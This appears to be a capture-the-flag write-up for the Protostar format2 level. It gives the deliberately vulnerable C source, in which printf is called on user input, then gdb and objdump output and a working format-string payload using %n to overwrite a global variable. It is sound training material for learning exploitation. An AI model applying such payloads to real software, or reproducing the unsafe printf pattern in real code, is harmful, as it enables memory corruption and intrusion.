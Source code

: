 #### Protostar Format2 

##### About
This level moves on from format1 and shows how specific values can be written in memory.  
  
This level is at /opt/protostar/bin/format2

##### Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);
  
  if(target == 64) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

Format string '%n' prints nothing, but writes number of characters successfully written so far into an integer pointer parameter.

##### Solution
```
$ objdump -t format2 | grep target
080496e4 g     O .bss   00000004              target

$ echo 'AAAA' > /tmp/payload

$ gdb format2
......
(gdb) disas vuln
Dump of assembler code for function vuln:
0x08048454 <+0>:    push   %ebp
0x08048455 <+1>:    mov    %esp,%ebp
0x08048457 <+3>:    sub    $0x218,%esp
0x0804845d <+9>:    mov    0x80496d8,%eax
0x08048462 <+14>:   mov    %eax,0x8(%esp)
0x08048466 <+18>:   movl   $0x200,0x4(%esp)
0x0804846e <+26>:   lea    -0x208(%ebp),%eax
0x08048474 <+32>:   mov    %eax,(%esp)
0x08048477 <+35>:   call   0x804835c <fget@plt>
0x0804847c <+40>:   lea    -0x208(%ebp),%eax
......
(gdb) b *0x0804847c
Breakpoint 1 at 0x0804847c: file format2/format2.c, line 13.
(gdb) r < /tmp/payload
Starting program: /opt/protostar/bin/format2 < /tmp/payload
Breakpoint 1, vuln() at format2/format2.c:13
(gdb) x/4x $esp
0xbffffb00:     0xbffffb10      0x00000200      0xb7fd8420      0xbffffb54
(gdb) x 0xbffffb10
0xbffffb10:     0x41414141
(gdb) p (0xbffffb10 - 0xbffffb00) / 4
$1 = 4
(gdb) quit

$ python -c 'print "\xe4\x96\x04\x08%4$n"' | ./format2
◆
target is 4 :(
$ python -c 'print "\xe4\x96\x04\x08%60x%4$n"' | ./format2
                                                         200
you have modified the target :)
```

##### Reference
<https://thesprawl.org/research/exploit-exercises-protostar-format/#format-2>  
<http://louisrli.github.io/blog/2012/08/29/protostar-format0/>
